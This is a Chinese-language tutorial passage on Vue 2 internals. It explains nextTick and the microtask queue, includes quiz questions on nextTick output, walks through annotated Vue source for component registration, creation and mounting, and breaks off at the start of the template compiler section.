- 使用场景，1. 比如点击一个按钮后，让一个有内容的隐藏的 div 显示，这时候想拿到这个 div 的宽度，就需要把获取宽度的操作放在 nextTick 里；2. 比如点击按钮后，让一个隐藏的 input 输入框显示，然后使它获取焦点，这时候就需要 nextTick
nextTick 函数的作用相当于 setTimeout(fn, 0)，这里有几个概念需要了解一下，即调用栈、任务队列、事件循环，javascript 是一种单线程的语言，它的一切都是建立在以这三个概念为基础之上的。
任务队列并非只有一个队列，可以将其分为 microtask（微任务） 和 task（宏任务）。当调用栈空闲后每次事件循环只会从 task 中读取一个任务并执行，而在同一次事件循环内会将 microtask 队列中所有的任务全部执行完毕，且要先于下一次 task。另外 task 中两个不同的任务之间可能穿插着 UI 的重渲染，那么我们只需要在 microtask 中把所有在 UI 重渲染之前需要更新的数据全部更新，这样只需要一次重渲染就能得到最新的 DOM 了。恰好 Vue 是一个数据驱动的框架，如果能在 UI 重渲染之前更新所有数据状态，这对性能的提升是一个很大的帮助，所有要优先选用 microtask 去更新数据状态而不是 task，这就是为什么不使用 setTimeout 的原因，因为 setTimeout 会将回调放到 task 队列中而不是 microtask 队列，所以理论上最优的选择是使用 Promise，当浏览器不支持 Promise 时再降级为 setTimeout。
vue 代码对微任务的降级兼容处理：
- 优先使用 Promise，Promise 的 then 回调会被放入浏览器 microtask（微任务） 队列中执行。
- 如果不支持 Promise，使用 MutationObserver
- 否则 setImmediate
- 如果以上都不支持，使用 setTimeout
update 生命周期更新顺序
如果子组件数据改变影响到了父组件，或者父组件数据改变影响到了子组件，那么它们的渲染 watcher 都入队列，并且按照 id 升序排列，id 小的是父组件，大的是子组件。flushSchedulerQueue 的时候遍历 watcher 队列，先调用父组件的 watcher.before() 触发 beforeUpdate 生命周期钩子，然后再触发子组件的 beforeUpdate。等到遍历调用 watcher.run() 结束了，这时候遍历 watcher 队列数组，注意这里是从队列结尾处往回遍历，所以是先子后父调用 update。
所以父子组件数据都被改变的时候，它们的 update 生命周期顺序：
父 beforeUpdate 子 beforeUpdate 子 updated 父 updated
题目
第一题
<div id="demo">
<p id="p1">{{foo}}</p>
</div>
<script>
const app = new Vue({
el: '#demo',
data: {
foo: 'ready~~'
},
mounted() {
this.foo = Math.random()
console.log('1:' + this.foo);
this.foo = Math.random()
console.log('2:' + this.foo);
this.foo = Math.random()
console.log('3:' + this.foo);
console.log('p1.innerHTML:' + p1.innerHTML)
this.$nextTick(() => {
console.log('p1.innerHTML:' + p1.innerHTML)
})
}
});
</script>
答案
const app = new Vue({
el: '#demo',
data: {
foo: 'ready~~'
},
mounted() {
this.foo = Math.random()
console.log('1:' + this.foo);
this.foo = Math.random()
console.log('2:' + this.foo);
this.foo = Math.random()
console.log('3:' + this.foo);
console.log('p1.innerHTML:' + p1.innerHTML) // 'ready~~'
this.$nextTick(() => {
console.log('p1.innerHTML:' + p1.innerHTML) // 第三次的随机值
})
}
});
第二题
<div id="demo">
<p id="p1">{{foo}}</p>
</div>
<script>
const app = new Vue({
el: '#demo',
data: {
foo: 'ready~~'
},
mounted() {
this.foo = Math.random()
console.log('1:' + this.foo);
this.foo = Math.random()
console.log('2:' + this.foo);
this.$nextTick(() => {
console.log('p1.innerHTML:' + p1.innerHTML)
})
this.foo = Math.random()
console.log('3:' + this.foo);
console.log('p1.innerHTML:' + p1.innerHTML)
}
});
</script>
答案
const app = new Vue({
el: '#demo',
data: {
foo: 'ready~~'
},
mounted() {
this.foo = Math.random()
console.log('1:' + this.foo);
this.foo = Math.random()
console.log('2:' + this.foo);
this.$nextTick(() => {
console.log('p1.innerHTML:' + p1.innerHTML) // 第三子的随机值
})
this.foo = Math.random()
console.log('3:' + this.foo);
console.log('p1.innerHTML:' + p1.innerHTML) // 'ready~~'
}
});
第三题
<div id="demo">
<p id="p1">{{foo}}</p>
</div>
<script>
const app = new Vue({
el: '#demo',
data: {
foo: 'ready~~'
},
mounted() {
this.$nextTick(() => {
console.log('p1.innerHTML:' + p1.innerHTML)
})
this.foo = Math.random()
console.log('1:' + this.foo);
this.foo = Math.random()
console.log('2:' + this.foo);
this.foo = Math.random()
console.log('3:' + this.foo);
console.log('p1.innerHTML:' + p1.innerHTML)
}
});
</script>
答案
const app = new Vue({
el: '#demo',
data: {
foo: 'ready~~'
},
mounted() {
this.$nextTick(() => {
console.log('p1.innerHTML:' + p1.innerHTML) // 'ready~~'
})
this.foo = Math.random()
console.log('1:' + this.foo);
this.foo = Math.random()
console.log('2:' + this.foo);
this.foo = Math.random()
console.log('3:' + this.foo);
console.log('p1.innerHTML:' + p1.innerHTML) // 'ready~~'
}
});
第四题
<div id="demo">
<p id="p1">{{foo}}</p>
</div>
<script>
const app = new Vue({
el: '#demo',
data: {
foo: 'ready~~'
},
mounted() {
this.foo = Math.random()
console.log('1:' + this.foo);
this.foo = Math.random()
console.log('2:' + this.foo);
this.foo = Math.random()
console.log('3:' + this.foo);
Promise.resolve().then(() => {
console.log('promise:' + p1.innerHTML)
})
this.$nextTick(() => {
console.log('p1.innerHTML:' + p1.innerHTML)
})
}
});
</script>
答案
const app = new Vue({
el: '#demo',
data: {
foo: 'ready~~'
},
mounted() {
this.foo = Math.random()
console.log('1:' + this.foo);
this.foo = Math.random()
console.log('2:' + this.foo);
this.foo = Math.random()
console.log('3:' + this.foo);
Promise.resolve().then(() => {
console.log('promise:' + p1.innerHTML) // 第三次随机值
})
this.$nextTick(() => {
console.log('p1.innerHTML:' + p1.innerHTML) // 第三次随机值
})
// 先打印 $nextTick 再打印 Promise.resolve().then()
}
});
组件化
组件注册
全局组件注册
全局组件注册会调用 Vue.component，其内部其实是调用 Vue.extend。
Vue.component('my-component', { /* ... */ })
src\core\global-api\assets.js
点击查看代码
/**
* 定义 Vue.component、Vue.filter、Vue.directive 这三个方法
* 这三个方法所做的事情是类似的，就是在 this.options.xx 上存放对应的配置
* 比如 Vue.component(compName, {xx}) 结果是 this.options.components.compName = 组件构造函数
* ASSET_TYPES = ['component', 'directive', 'filter']
*/
ASSET_TYPES.forEach(type => {
/**
* 比如：Vue.component(name, definition)
* @param {*} id name
* @param {*} definition 组件构造函数或者配置对象
* @returns 返回组件构造函数
*/
Vue[type] = function (
id: string,
definition: Function | Object
): Function | Object | void {
if (!definition) {
return this.options[type + 's'][id]
} else {
/* istanbul ignore if */
if (process.env.NODE_ENV !== 'production' && type === 'component') { // 开发环境下对组件名做校验
validateComponentName(id)
}
if (type === 'component' && isPlainObject(definition)) {
// 如果组件配置中存在 name，则使用，否则直接使用 id
definition.name = definition.name || id
// extend 就是 Vue.extend，所以这时的 definition 就变成了 组件构造函数，使用时可直接 new Definition()
definition = this.options._base.extend(definition) // 调用 Vue.extend 生成组件构造函数
}
if (type === 'directive' && typeof definition === 'function') {
definition = { bind: definition, update: definition }
}
// this.options.components[id] = definition
// 在实例化时通过 mergeOptions 将全局注册的组件合并到每个组件的配置对象的 components 中
this.options[type + 's'][id] = definition // 在 Vue.options 上加入对应的定义
return definition
}
}
})
src\core\global-api\extend.js
点击查看代码
/**
* 基于 Vue 去扩展子类，该子类同样支持进一步的扩展
* 扩展时可以传递一些默认配置，就像 Vue 也会有一些默认配置
* 默认配置如果和基类有冲突则会进行选项合并（mergeOptions)
*/
Vue.extend = function (extendOptions: Object): Function {
extendOptions = extendOptions || {}
const Super = this // Vue 构造函数
const SuperId = Super.cid
/**
* 利用缓存，如果存在则直接返回缓存中的构造函数
* 什么情况下可以利用到这个缓存？
* 如果你在多次调用 Vue.extend 时使用了同一个配置项（extendOptions），这时就会启用该缓存
*/
const cachedCtors = extendOptions._Ctor || (extendOptions._Ctor = {})
if (cachedCtors[SuperId]) {
return cachedCtors[SuperId]
}
// 验证组件名称
const name = extendOptions.name || Super.options.name
if (process.env.NODE_ENV !== 'production' && name) {
validateComponentName(name)
}
// 定义 Sub 构造函数，和 Vue 构造函数一样
const Sub = function VueComponent (options) {
// 初始化
this._init(options)
}
// 通过原型继承的方式继承 Vue
Sub.prototype = Object.create(Super.prototype)
// 设置构造函数
Sub.prototype.constructor = Sub
Sub.cid = cid++
// 选项合并，合并 Vue 的配置项到 自己的配置项上来
// 可以通过 Vue.extend 定义一个子类，预设一些配置项
Sub.options = mergeOptions(
Super.options,
extendOptions
)
// 记录自己的基类
Sub['super'] = Super
// For props and computed properties, we define the proxy getters on
// the Vue instances at extension time, on the extended prototype. This
// avoids Object.defineProperty calls for each instance created.
// 初始化 props，将 props 配置代理到 Sub.prototype._props 对象上
// 在组件内通过 this._props 方式可以访问
if (Sub.options.props) {
initProps(Sub)
}
// 初始化 computed，将 computed 配置代理到 Sub.prototype 对象上
// 在组件内可以通过 this.computedKey 的方式访问
if (Sub.options.computed) {
initComputed(Sub)
}
// allow further extension/mixin/plugin usage
// 定义 extend、mixin、use 这三个静态方法，允许在 Sub 基础上再进一步构造子类
Sub.extend = Super.extend
Sub.mixin = Super.mixin
Sub.use = Super.use
// create asset registers, so extended classes
// can have their private assets too.
// 定义 component、filter、directive 三个静态方法
ASSET_TYPES.forEach(function (type) {
Sub[type] = Super[type]
})
// enable recursive self-lookup
// 递归组件的原理，如果组件设置了 name 属性，则将自己注册到自己的 components 选项中
/**
* {
* name: 'Comp',
* components: { 'Comp': Comp }
* }
*/
if (name) {
Sub.options.components[name] = Sub
}
// keep a reference to the super options at extension time.
// later at instantiation we can check if Super's options have
// been updated.
// 在扩展时保留对基类选项的引用。
// 稍后在实例化时，我们可以检查 Super 的选项是否具有更新
Sub.superOptions = Super.options
Sub.extendOptions = extendOptions
Sub.sealedOptions = extend({}, Sub.options)
// cache constructor
cachedCtors[SuperId] = Sub // 将 Sub 构造函数缓存
return Sub
}
Vue.component 其实就是调用 Vue.extend 生成组件的构造函数，这个构造函数继承自 Vue，是 Vue 的子类。得到子类后，将子类放入 Vue.options.components 全局 options 中，这样项目中所有组件在初始化的时候，都会调用 mergeOptions 将 Vue.options 这个全局 options 合并入自己的 option 中，这就是为什么全局组件可以在任何组件中使用的原因。
局部组件注册
局部组件其实是单文件组件，然后写在另外一个组件 option 中的 components 中：
// 组件 A.vue
<script>
export default {
name: 'A'
}
</script>
// 组件 B.vue
<template>
<A></A>
</template>
<script>
import A from './A.vue'
export default {
name: 'B',
components: {
A
}
}
</script>
单文件组件会被 webpack 的 vue-loader 处理，会编译 template 为 render 函数，最终导出的依然是组件配置对象。
通过打印 vue 实例的 $options.render 属性，可以查看编译后的 render 函数：
const app = new Vue({
el: '#demo'
});
console.log(app.$options.render)
"with(this){return _c('div',{attrs:{"id":"demo"}},[
_c('h1',[_v("虚拟DOM")]),_v(" "),
_c('p',[_v(_s(foo))]),_v(" "),
_c('comp') // 对于组件的处理并⽆特殊之处
],1)}"
通过 render 函数可以知道组件的解析是 _c 函数做的。
组件的解析
下面是 initRender 源码 src\core\instance\render.js
点击查看代码
export function initRender (vm: Component) { // Vue.prototype._init 调用的时候会执行 initRender
vm._vnode = null // the root of the child tree
vm._staticTrees = null // v-once cached trees
const options = vm.$options
const parentVnode = vm.$vnode = options._parentVnode // the placeholder node in parent tree
const renderContext = parentVnode && parentVnode.context
vm.$slots = resolveSlots(options._renderChildren, renderContext)
vm.$scopedSlots = emptyObject
// bind the createElement fn to this instance
// so that we get proper render context inside it.
// args order: tag, data, children, normalizationType, alwaysNormalize
// internal version is used by render functions compiled from templates
vm._c = (a, b, c, d) => createElement(vm, a, b, c, d, false)
// normalization is always applied for the public version, used in
// user-written render functions.
vm.$createElement = (a, b, c, d) => createElement(vm, a, b, c, d, true)
// 当用户手写 render 函数传入 options 时，就调用 vm.$createElement，如果 render 函数是从 template 编译而来，就使用 vm._c
// $attrs & $listeners are exposed for easier HOC creation.
// they need to be reactive so that HOCs using them are always updated
const parentData = parentVnode && parentVnode.data
/* istanbul ignore else */
// vm.$attrs 和 vm.$listeners 定义为响应式的属性，shallow 参数是 true，表示非深度监测
if (process.env.NODE_ENV !== 'production') {
defineReactive(vm, '$attrs', parentData && parentData.attrs || emptyObject, () => {
!isUpdatingChildComponent && warn(`$attrs is readonly.`, vm)
}, true)
defineReactive(vm, '$listeners', options._parentListeners || emptyObject, () => {
!isUpdatingChildComponent && warn(`$listeners is readonly.`, vm)
}, true)
} else {
defineReactive(vm, '$attrs', parentData && parentData.attrs || emptyObject, null, true)
defineReactive(vm, '$listeners', options._parentListeners || emptyObject, null, true)
}
}
_c 函数最后其实执行的是 createElement 函数，而 createElement 里调用了 _createElement 函数。
下面是 _createElement 源码 src\core\vdom\create-element.js
点击查看代码
export function _createElement (
context: Component,
tag?: string | Class<Component> | Function | Object,
data?: VNodeData,
children?: any,
normalizationType?: number
): VNode | Array<VNode> {
if (isDef(data) && isDef((data: any).__ob__)) { // 判断 data 参数对象是否是响应式的，如果是响应式的就报错
process.env.NODE_ENV !== 'production' && warn(
`Avoid using observed data object as vnode data: ${JSON.stringify(data)}\n` +
'Always create fresh vnode data objects in each render!',
context
)
return createEmptyVNode()
}
// object syntax in v-bind
if (isDef(data) && isDef(data.is)) { // 判断如果使用了动态组件，给component绑定了is属性，那么 tag 就是 is 属性指向的组件标签名
tag = data.is
}
if (!tag) { // 如果没有 tag，创建空 vnode 返回
// in case of component :is set to falsy value
return createEmptyVNode()
}
// warn against non-primitive key
if (process.env.NODE_ENV !== 'production' &&
isDef(data) && isDef(data.key) && !isPrimitive(data.key)
) { // 如果 data.key 不是简单类型数据报错
if (!__WEEX__ || !('@binding' in data.key)) {
warn(
'Avoid using non-primitive value as key, ' +
'use string/number value instead.',
context
)
}
}
// support single function children as default scoped slot
if (Array.isArray(children) &&
typeof children[0] === 'function'
) {
data = data || {}
data.scopedSlots = { default: children[0] }
children.length = 0
}
if (normalizationType === ALWAYS_NORMALIZE) {
// children 期望是一个数组，每个元素是一个 vnode ，调用 normalizeChildren 方法将嵌套的数组展平
children = normalizeChildren(children)
} else if (normalizationType === SIMPLE_NORMALIZE) {
children = simpleNormalizeChildren(children)
}
let vnode, ns
if (typeof tag === 'string') { // 如果 tag 是字符串
let Ctor
ns = (context.$vnode && context.$vnode.ns) || config.getTagNamespace(tag)
// 保留标签 例如 div 或 p，直接创建 vnode
if (config.isReservedTag(tag)) {
// platform built-in elements
if (process.env.NODE_ENV !== 'production' && isDef(data) && isDef(data.nativeOn)) {
warn(
`The .native modifier for v-on is only valid on components but it was used on <${tag}>.`,
context
)
}
vnode = new VNode(
config.parsePlatformTagName(tag), data, children,
undefined, undefined, context
)
} else if ((!data || !data.pre) && isDef(Ctor = resolveAsset(context.$options, 'components', tag))) {
// 如果是 component
// resolveAsset 从 options 中拿到组件的构造函数
// component
vnode = createComponent(Ctor, data, context, children, tag)
} else { // 如果不认识的标签名
// unknown or unlisted namespaced elements
// check at runtime because it may get assigned a namespace when its
// parent normalizes children
vnode = new VNode(
tag, data, children,
undefined, undefined, context
)
}
} else {// 否则创建 component
// direct component options / constructor
vnode = createComponent(tag, data, context, children)
}
if (Array.isArray(vnode)) {
return vnode
} else if (isDef(vnode)) {
if (isDef(ns)) applyNS(vnode, ns)
if (isDef(data)) registerDeepBindings(data)
return vnode
} else {
return createEmptyVNode()
}
}
_createElement 中判断 tag 如果是保留标签，就创建对应的 vnode，如果不是就可能是组件，会去从 vm.$options.components 中拿到对应的构造函数，如果这个组件是全局组件，那么这时候获取到的就是子类构造函数，如果是局部组件，这时候获取到的就是组件对应的 option，然后调用 createComponent
下面是 createComponent 源码 src\core\vdom\create-component.js
点击查看代码
// 生成自定义组件的 vnode
export function createComponent (
Ctor: Class<Component> | Function | Object | void,
data: ?VNodeData,
context: Component,
children: ?Array<VNode>,
tag?: string
): VNode | Array<VNode> | void { // 此方法用于创建 component 的 vnode
if (isUndef(Ctor)) {
return
}
const baseCtor = context.$options._base
// baseCtor 就是 Vue 构造函数
// 在 src/core/global-api/index 中定义了 Vue.options._base = Vue
// 在 Vue.prototype._init 中会把 Vue.options 合并到 vm.$options 中
// plain options object: turn it into a constructor
// 如果 Ctor 是对象，说明这个组件不是全局组件，而是局部组件
// 全局组件这里传进来的 Ctor 就已经是 Vue.extend 处理后的子类构造函数了，因为全局组件总是在 new Vue 根组件实例初始化之前就注册了
if (isObject(Ctor)) {
// 如果 Ctor 是个对象，说明是局部注册组件，为其构造⼦类构造函数。Vue.extend 定义在 src/core/global-api/extend 中
Ctor = baseCtor.extend(Ctor)
}
// if at this stage it's not a constructor or an async component factory,
// reject.
if (typeof Ctor !== 'function') { // 如果子构造器生成失败，报错
if (process.env.NODE_ENV !== 'production') {
warn(`Invalid Component definition: ${String(Ctor)}`, context)
}
return
}
// async component
// 异步组件逻辑
let asyncFactory
if (isUndef(Ctor.cid)) {
asyncFactory = Ctor
Ctor = resolveAsyncComponent(asyncFactory, baseCtor)
if (Ctor === undefined) {
// return a placeholder node for async component, which is rendered
// as a comment node but preserves all the raw information for the node.
// the information will be used for async server-rendering and hydration.
return createAsyncPlaceholder(
asyncFactory,
data,
context,
children,
tag
)
}
}
// 组件数据 事件 指令处理
data = data || {}
// resolve constructor options in case global mixins are applied after
// component constructor creation
resolveConstructorOptions(Ctor)
// transform component v-model data into props & events
if (isDef(data.model)) {
transformModel(Ctor.options, data)
}
// extract props
const propsData = extractPropsFromVNodeData(data, Ctor, tag)
// functional component
if (isTrue(Ctor.options.functional)) {
return createFunctionalComponent(Ctor, propsData, data, context, children)
}
// extract listeners, since these needs to be treated as
// child component listeners instead of DOM listeners
const listeners = data.on
// replace with listeners with .native modifier
// so it gets processed during parent component patch.
data.on = data.nativeOn
if (isTrue(Ctor.options.abstract)) {
// abstract components do not keep anything
// other than props & listeners & slot
// work around flow
const slot = data.slot
data = {}
if (slot) {
data.slot = slot
}
}
// install component management hooks onto the placeholder node
// 安装组件钩⼦函数 用于组件初始化或更新或销毁
installComponentHooks(data)
// return a placeholder vnode
const name = Ctor.options.name || tag
const vnode = new VNode(
`vue-component-${Ctor.cid}${name ? `-${name}` : ''}`,
data, undefined, undefined, undefined, context,
{ Ctor, propsData, listeners, tag, children },
asyncFactory
) // 实例化 vnode
// Weex specific: invoke recycle-list optimized @render function for
// extracting cell-slot template.
// https://github.com/Hanks10100/weex-native-directive/tree/master/component
/* istanbul ignore if */
if (__WEEX__ && isRecyclableComponent(vnode)) {
return renderRecyclableComponentTemplate(vnode)
}
return vnode
}
createComponent 需要特别注意的有两点：
- 用 Vue.extend 创建了局部注册组件的子类构造函数（全局组件在 Vue.component 调用的时候就已经生成子类构造函数了，这里处理的是局部组件）
- 安装了组件钩子函数，这些钩子函数用于组件的初始化，更新和销毁
组件解析和挂载完整流程
// main.js
import Vue from 'vue'
import App from './App.vue'
import ComponentA from './ComponentA.vue'
Vue.component('ComponentA', ComponentA)
new Vue({
...App
}).$mount('#app')
// App.vue
<template>
<div>
<ComponentA></ComponentA>
</div>
</template>
<script>
export default {
name: 'App'
}
</script>
// ComponentA.vue
<template>
<div>
ComponentA
</div>
</template>
<script>
export default {
name: 'ComponentA'
}
</script>
上面这个例子关于组件的流程如下（省略 Vue.component 注册全局组件流程，之前已经分析过了）
-
父组件（App.vue）初始化
-
父组件（App.vue）执行 $mount 挂载流程，调用 mountComponent （
src\core\instance\lifecycle.js） -
mountComponent 中对当前组件（App.vue）新建一个对应的渲染 watcher，传入 updateComponent 方法作为参数
// 此处只给出关键代码 function mountComponent() { updateComponent = function () { vm._update(vm._render(), hydrating); }; new Watcher(vm, updateComponent, noop, { before: function before () { if (vm._isMounted && !vm._isDestroyed) { callHook(vm, 'beforeUpdate'); } } }, true /* isRenderWatcher */); } -
new Wacher() 初始化 watcher 实例的时候，最后会调用刚才传入的 updateComponent，于是会先执行 vm._render()，然后再执行 vm._update
-
vm._render() 也就是 Vue.prototype._render （
src\core\instance\render.js）执行。Vue.prototype._render 中会去调用当前组件 $options 中的 render 函数，这里例子中的 App.vue 已经被 vue-loader 编译后产生了 render 函数下面是 Vue.prototype._render（
src\core\instance\render.js）// 此处只给出关键代码 Vue.prototype._render = function() { const vm = this const { render, _parentVnode } = vm.$options vnode = render.call(vm._renderProxy, vm.$createElement) return vnode }下面是 App.vue 的 render 函数
var render = function() { var _vm = this var _h = _vm.$createElement var _c = _vm._self._c || _h return _c("div", [_c("ComponentA")], 1) }这里调用后会执行 _c("ComponentA")。
-
_c 最后调用的是 _createElement (
src\core\vdom\create-element.js)。_createElement 会判断字符串 "ComponentA" 是否是保留标签，发现不是，说明是组件名称，于是获取到之前 Vue.extend 生成的全局组件的子类构造函数，然后调用 createComponent 去生成 vnode。createComponent 调用的时候，第一个参数是 resolveAsset 从 this.$options 中找到的 Ctor，如果是全局组件 Ctor 就是子类构造函数，如果是局部组件，这时候 Ctor 是局部组件的配置对象。局部组件的配置对象传递给 createComponent 后会调用 Vue.extend 创建子类构造函数，然后作为 componentOptions 的一部分传递给 Vnode 构造函数。function _createElement() { if (typeof tag === 'string') { if (config.isReservedTag(tag)) { // 省略 } else if ((!data || !data.pre) && isDef(Ctor = resolveAsset(context.$options, 'components', tag))) { vnode = createComponent(Ctor, data, context, children, tag) } } return vnode } -
createComponent 为组件的 data 上安装组件钩子用于初始化更新和卸载
function createComponent() { data = data || {} installComponentHooks(data) const vnode = new VNode( `vue-component-${Ctor.cid}${name ? `-${name}` : ''}`, data ) return vnode } -
_c("ComponentA") 执行完成返回了 ComponentA 组件的占位符 vnode（占位符 vnode 的名字为 vue-component-1-ComponentA），接下来执行
_c("div", [_c("ComponentA")], 1)，接着 vm._render() 结束，返回了 App.vue 组件对应的 vnode，传递给 vm._updateupdateComponent = function () { vm._update(vm._render(), hydrating); }; -
Vue.prototype._update （
src\core\instance\lifecycle.js） 执行 patch 流程Vue.prototype._update = function (vnode, hydrating) { const vm = this const prevEl = vm.$el const prevVnode = vm._vnode // 设置当前 vm 实例为激活的实例，后面 patch 过程中如果遇到组件实例初始化后，就可以用来建立组件的父子关系 const restoreActiveInstance = setActiveInstance(vm) vm._vnode = vnode if (!prevVnode) { // initial render // 首次渲染，即初始化页面时走这里 vm.$el = vm.__patch__(vm.$el, vnode, hydrating, false /* removeOnly */) } else { vm.$el = vm.__patch__(prevVnode, vnode) } } -
patch （
src\core\vdom\patch.js） 中会调用 createElm 根据 vnode 生成 domcreateElm( vnode, insertedVnodeQueue, // extremely rare edge case: do not insert if old element is in a // leaving transition. Only happens when combining transition + // keep-alive + HOCs. (#4590) oldElm._leaveCb ? null : parentElm, // 父节点 nodeOps.nextSibling(oldElm) // 宿主元素的邻居节点 ) -
这个例子中首先去创建 div 对应的 dom 元素，然后再调用 createChildren 递归调用 createElm 创建子节点。这里 div 的子节点就是刚才的 ComponentA 组件的占位符 vnode （vue-component-1-ComponentA）。这时候会走到 createElm 中的这一句判断，这句判断会发现这个 vnode 是一个组件的占位符 vnode ，然后根据这个 vnode 去初始化组件实例
if (createComponent(vnode, insertedVnodeQueue, parentElm, refElm)) { // 如果 vnode 是组件 vnode，则调用组件的 hook.init，就会继续创建子组件 return }createComponent 会调用占位符 vnode 中 data 属性中的钩子函数 init 去初始化组件实例
function createComponent (vnode, insertedVnodeQueue, parentElm, refElm) { let i = vnode.data if (isDef(i)) { const isReactivated = isDef(vnode.componentInstance) && i.keepAlive if (isDef(i = i.hook) && isDef(i = i.init)) { // 得到 i 是 init 钩子函数 // 执行 init 组件钩子，创建组件实例并且执行挂载 i(vnode, false /* hydrating */) } if (isDef(vnode.componentInstance)) { // 属性 事件 样式初始化 initComponent(vnode, insertedVnodeQueue) // 组件的 dom 插入到父节点中 insert(parentElm, vnode.elm, refElm) if (isTrue(isReactivated)) { reactivateComponent(vnode, insertedVnodeQueue, parentElm, refElm) } return true } } } -
组件钩子中的 init 会找到组件的子类构造函数，创建组件实例，创建成功后手动调用 $mount 去挂载组件
{ init (vnode: VNodeWithData, hydrating: boolean): ?boolean { if ( vnode.componentInstance && !vnode.componentInstance._isDestroyed && vnode.data.keepAlive ) { // 缓存组件，被包在 keep-alive 标签中的组件 // kept-alive components, treat as a patch const mountedNode: any = vnode // work around flow componentVNodeHooks.prepatch(mountedNode, mountedNode) } else { // 正常初始化 // 调用组件构造函数获取组件实例 const child = vnode.componentInstance = createComponentInstanceForVnode( vnode, activeInstance ) // 手动调用组件 $mount 走挂载流程 child.$mount(hydrating ? vnode.elm : undefined, hydrating) } } } // 调用组件的子类构造函数，创建组件实例 export function createComponentInstanceForVnode ( vnode: any, // we know it's MountedComponentVNode but flow doesn't parent: any, // activeInstance in lifecycle state ): Component { const options: InternalComponentOptions = { _isComponent: true, // 表明是一个组件 _parentVnode: vnode, parent } // check inline-template render functions const inlineTemplate = vnode.data.inlineTemplate if (isDef(inlineTemplate)) { options.render = inlineTemplate.render options.staticRenderFns = inlineTemplate.staticRenderFns } return new vnode.componentOptions.Ctor(options) // 子组件实例 }注意这里调用组件构造函数的时候传入的 options 中的参数 parent 是 activeInstance，也就是在父组件 App.vue 执行 Vue.prototype._update 的时候设置的当前激活的组件实例，也即是 App.vue 对应的实例，也就是说这个 parent 参数的传入使得 ComponentA 和 App 组件建立起了父子组件关系。
组件初始化的时候会调用 initLifecycle 去建立子组件和父组件的关系，也就是 vm.$parent 属性和 vm.$children 属性，如下所示
initLifecycle
src\core\instance\lifecycle.jsexport function initLifecycle (vm: Component) { const options = vm.$options // locate first non-abstract parent (查找第一个非抽象的父组件) let parent = options.parent // 如果当前实例有父组件，且当前实例不是抽象的 // 抽象组件就是不渲染 dom 的组件：例如 keep-alive 或者 transition，他们也不会出现在父子关系的路径上 // 这里下面循环去找上层的真正父级实例（非抽象的）的原因是要将当前实例添加到父级的 $children 属性里 if (parent && !options.abstract) { // 使用 while 循环查找第一个非抽象的父组件 while (parent.$options.abstract && parent.$parent) { parent = parent.$parent } // 经过上面的 while 循环后，parent 应该是一个非抽象的组件，将它作为当前实例的父级，所以将当前实例 vm 添加到父级的 $children 属性里 parent.$children.push(vm) } // 设置当前实例的 $parent 属性，指向父级 vm.$parent = parent // 设置 $root 属性，有父级就是用父级的 $root，否则 $root 指向自身 vm.$root = parent ? parent.$root : vm // 上面代码的作用：将当前实例添加到父实例的 $children 属性里，并设置当前实例的 $parent 指向父实例 vm.$children = [] vm.$refs = {} vm._watcher = null vm._inactive = null vm._directInactive = false vm._isMounted = false vm._isDestroyed = false vm._isBeingDestroyed = false }同时注意这一句
const child = vnode.componentInstance = createComponentInstanceForVnode( vnode, activeInstance )获取到子组件的实例后把它放在了占位符 vnode 的 componentInstance 属性上，也就是说占位符 vnode 的 componentInstance 属性指向了真正的组件实例。
-
接下来就是走 ComponentA 的 $mount 流程，和之前 App 组件的 $mount 流程差不多。因此从这个整体流程可以看出，父子组件的生命周期是这样执行的：
- 父组件的 beforeCreate
- 父组件的 created
- 父组件的 beforeMount
- 子组件的 beforeCreate
- 子组件的 created
- 子组件的 beforeMount
- 子组件的 mounted
- 父组件的 mounted
-
如果父子传给子级一个 props 数据，然后父级改变了这个数据，那么更新的钩子函数是这样的顺序：
- 父 beforeUpdate
- 子 beforeUpdate
- 子 updated
- 父 updated
题目
你对组件化有什么理解？
- 组件是独立和可复用的代码组织单元，组件系统是 vue 核心特征，使开发者可以使用小型独立可复用的组件构建大型应用。
- 组件化开发能够提高开发效率，测试性，复用性。
- 组件分类：页面组件，业务组件，通用组件
- 合理划分组件，有利于提高性能。因为一个组件对应一个渲染 watcher，当组件中数据变化时会通知渲染 watcher 重新渲染，重新渲染时会计算新旧两个 vnode 的区别，也就是 diff 算法。如果将组件中频繁改变的地方单独提取成一个组件，diff 算法就可以减少一些无用的比较，提升了速度。
- 组件应该是高内聚，低耦合的，遵循单向数据流。
编译器
- Vue.prototype.$mount
/src/platforms/web/entry-runtime-with-compiler.js
Vue.prototype.$mount = function () {
if (!options.render) {
if (template) {
// 编译模版，得到 动态渲染函数和静态渲染函数
const { render, staticRenderFns } = compileToFunctions(template, {
// 在非生产环境下，编译时记录标签属性在模版字符串中开始和结束的位置索引
outputSourceRange: process.env.NODE_ENV !== 'production',
shouldDecodeNewlines,
shouldDecodeNewlinesForHref,
// 界定符，默认 {{}}
delimiters: options.delimiters,
// 是否保留注释
comments: options.comments
}, this)
// 将两个渲染函数放到 this.$options 上
options.render = render
options.staticRenderFns = staticRenderFns
}
}
}
Vue.prototype.$mount 中会先判断组件有没有 render 函数，如果没有就根据处理好的 template 去生成 render 函数。
- compileToFunctions 方法是由一系列方法生成的。
src\compiler\index.jsbaseCompile 基础编译器，编译阶段最重要的代码就在其中，编译核心主要做三件事：- 将 html 模版解析成 ast
- 对 ast 树进行静态标记，做优化
- 将 ast 生成字符串形式的渲染函数代码
src\compiler\create-compiler.jscreateCompilerCreator 将 baseCompile 基础编译器包装后返回。包装多做了两件事：- 调用 baseCompile 之前将 options 和 baseOptions 合并
- 调用 baseCompile 之后将 error 和 tip 信息挂在编译结果上
src\compiler\to-function.jscreateCompileToFunctionFn 将之前包装的编译器再次包装后返回。这次包装多做了三件事：- 将之前的 error 和 tip 信息打印到控制台
- 将编译结果返回的 code 通过 new Function() 生成 render 函数
- 将最终结果缓存
现在可以知道 Vue.prototype.$mount 中调用的 compileToFunctions 就是 createCompileToFunctionFn 包装后的那个函数
- 下面是基础编译器 baseCompile
src\compiler\index.js
/**
* 在这之前做的所有的事情，只有一个目的，就是为了构建平台特有的编译选项（options），比如 web 平台
*
* 1、将 html 模版解析成 ast
* 2、对 ast 树进行静态标记
* 3、将 ast 生成渲染函数
* 静态渲染函数放到 code.staticRenderFns 数组中
* code.render 为动态渲染函数
* 在将来渲染时执行渲染函数得到 vnode
*/
function baseCompile (
template: string,
options: CompilerOptions
): CompiledResult {
// 将模版解析为 AST，每个节点的 ast 对象上都设置了元素的所有信息，比如，标签信息、属性信息、插槽信息、父节点、子节点等。
// 具体有那些属性，查看 start 和 end 这两个处理开始和结束标签的方法
